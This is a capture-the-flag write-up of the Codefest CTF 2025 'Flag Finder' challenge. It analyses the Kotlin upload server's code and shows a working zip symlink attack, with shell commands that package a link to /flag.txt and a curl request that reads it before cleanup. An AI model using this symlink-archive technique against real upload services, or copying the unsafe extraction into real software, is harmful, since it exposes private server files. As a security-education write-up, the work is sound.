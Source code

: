 # Codefest CTF 2025

## Flag Finder

> 
> Made a simple utility for uploading files in a zip and storing on my server :)
> 
> Hopefully this will save some space on my local system.
>
>  Author: n/a
>
> [`server.zip`](server.zip)

Tags: _web_

## Solution
This challenge comes with the backend source code of a small web-service that allows uploading zip files and searching the content of the archive for a given substring. 

The source code is fairly small. There are some routes in `Routing.kt` to look at and a singleton object that loads the flag from `/flag.txt`:

```js
object Singleton {
    val publicDir = File("/app/public")
    val cleanupFiles = CopyOnWriteArrayList<File>()
    val flag = File("/flag.txt").readLines().joinToString(separator = "\n")
    init {
        GlobalScope.launch(Dispatchers.IO) {
            while (true) {
                for (file in cleanupFiles) {
                    try {
                        if (file.deleteRecursively()) {
                            cleanupFiles.remove(file)
                        }
                    } catch (e: Exception) {
                        e.printStackTrace()
                    }
                }
                delay(TimeUnit.SECONDS.toMillis(2))
            }
        }
    }
}
```

This gives us an important information, that is, we know where the flag is to be found. Also we can see there is a thread running that deletes files every `2 seconds` that where queued into `cleanupFiles`.

The routes noted above are `/` that just redirects to `/public/index.html`. Static files are served with `/public`, which points to a path held within the singleton (`Singleton.publicDir`). Then there is `verifyFlag` that compares whatever we sent as `flag` parameter with `Singleton.flag` and lastely there is the interesting bit, that is the upload functionality, reachable via `/upload`.

Lets break down the upload functionality step by step.

```js
post("/upload") {
    var zipFolder: File? = null
    var zipFile: File? = null
    try {
        val bytes = readRequestBody(call) ?: throw FileTooLargeException()
        val filename = MessageDigest.getInstance("MD5").digest(bytes).joinToString("") { "%02x".format(it) }

        System.err.println(bytes.size)
        zipFolder = File(Singleton.publicDir, filename)
        zipFile = File(Singleton.publicDir, "$filename.zip")
        if(zipFile.exists()) {
            throw Exception()
        }
        zipFile.writeBytes(bytes)
        val process = ProcessBuilder()
            .command("unzip", zipFile.absolutePath, "-d", zipFolder.absolutePath)
            .redirectError(ProcessBuilder.Redirect.INHERIT)
            .start()
    // snip ...
```

First the request body is read, which contains the zip file, and a `md5` hashsum is created for the content. The hashsum is used as filename. This seems useful to reduce potential collisions based on file content. Then paths `zipFolder` and `zipFile` are created, both located in the public directory, so we can reach the extracted zip folder by accessing `host\public\{MD5}`. Since we know the file we upload, we can calculate the hash ourself and access the folder.

Next the file bytes are written to the path and a process is invoked that runs `unzip` so the file is extracted.

```js
    // snip ...
        val thread = Thread {
            try {
                process.waitFor()
            } catch (e: InterruptedException) {
                e.printStackTrace()
            }
        }
        thread.start()
        thread.join(100)
        if (thread.isAlive) {
            process.destroy()
            thread.interrupt()
            throw TimeoutException()
        }
    // snip ...
```

The next bit is some synchronization code that allows to return with a timeout exception after `100 millisecods`. This is to avoid that users upload archives there extract is blocking too much here.

```js
    // snip ...
        var fileCount = 0
        var foundFile: String? = null
        val toFind = call.request.queryParameters["toFind"]!!
        Files.walk(zipFolder.toPath()).use { stream ->
            stream.filter { Files.isRegularFile(it) }
                .forEach { filePath ->
                    try {
                        if (fileCount++ >= 2000) {
                            return@forEach
                        }
                        Files.lines(filePath, StandardCharsets.UTF_8).use { lines ->
                            lines.forEach { line ->
                                if (line.contains(toFind)) {
                                    foundFile = filePath.absolutePathString()
                                    foundFile =
                                        foundFile?.takeLast(foundFile!!.length - zipFolder.absolutePath.length)
                                }
                            }
                        }
                    } catch (_: Exception) {
                        System.err.println("Error parsing the input file: ${filePath.absolutePathString()}")
                    }
                }
        }
        if (foundFile != null) {
            call.respondText("FLAG FOUND IN $foundFile")
        } else {
            call.respondText("No flag found :(")
        }
    // snip ...
```

Next up, after the archive was extracted, the folder is traversed and, for each `regular file` the file is read line by line. If a line contains the seach-string passed by `toFind` the response is set to `FLAG FOUND IN $foundFile` while `foundFile` holds the filename that contained the matching substring.

```js
    /// snip
    } catch (e: FileTooLargeException) {
        call.respondText("ERROR: Zip file too large. Only upto 1KB supported.")
    } catch (e: Exception) {
        e.printStackTrace()
        call.respondText("ERROR: Internal Server Error")
    } finally {
        zipFile?.let { Singleton.cleanupFiles.add(it) }
        zipFolder?.let { Singleton.cleanupFiles.add(it) }
    }

}
```

After this there is some exception handling and in the `finally` section the zip folder content and the archive itself are scheduled for cleanup (remember, every two seconds a cleanup runs).

Well... What can we do here? One thing that stands out is, we know where the flag is located, but we don't have the possibility to do path traversal or anything else. But we can reach the file still, because zip archives allow it to pack `symbolic links`. We can verify if this works by preparing a setup.

```bash
$ touch /flag.txt
$ ln -s /flag.txt flag.txt
$ zip -y -r archive.zip .
  adding: flag.txt (stored 0%)
```

This should do the trick. Lets upload to server and searches for a known part of the flag `Codefest`:

![](img01.png)

That worked, the service does access the flag file. The problem is, how can we get the `content` of the file? There is no possibility to expoit string interpolation here, by setting the filename of the zipped symbolic link to something interesting like `$Singleton.flag`. 

But we still can `access` the extracted content (at least within a 2 second timeframe). So lets build the path real quick.

```bash
$ md5sum archive.zip
ba2f4ffabfbd5ed38583866c9b0cc551  archive.zip
```

The path is therefore `http://codefest-ctf.iitbhu.tech:24858/public/ba2f4ffabfbd5ed38583866c9b0cc551` and we know there is a symbolic link pointing to `/flag.txt` in there, so, why not just read this? So, we upload the archive and very quickly run our request for the flag file. And yes, this gives us the flag.

```bash
$ curl http://codefest-ctf.iitbhu.tech:24858/public/ba2f4ffabfbd5ed38583866c9b0cc551/flag.txt
CodefestCTF{symlinks_ftw_IlDObuPc}
```

Flag `CodefestCTF{symlinks_ftw_IlDObuPc}`